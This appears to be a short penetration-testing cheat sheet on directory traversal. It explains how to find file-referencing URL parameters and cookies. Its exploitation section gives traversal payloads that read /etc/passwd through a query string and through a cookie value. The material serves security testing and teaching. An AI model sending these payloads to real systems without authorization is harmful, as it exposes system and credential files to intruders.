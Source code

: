 # Directory Traversal

> Directory Traversal aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system.

## Identifying Vulnerability

We can identify this type of vulnerability by inspecting the URL query strings or the body in search of values that reference files. Example:

```bash
.php?file=$FILE
.cgi?home=$FILE
.jsp?item=$FILE
```

Cookies can also be used  by the web application for the dynamic generation of pages or templates:

```bash
Cookie: ID=d9ccd3f4f9f18cc1:.....TEMPLATE=$TEMPLATE
Cookie: USER=1826cc8f:PSTYLE=$FILE
```
_____

## Exploiting Vulnerability

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

```bash
#Parameter:
.php?file=../../../../etc/passwd
#Cookie:
Cookie: USER=24dedbeef44:PSTYLE=../../../../etc/passwd
```
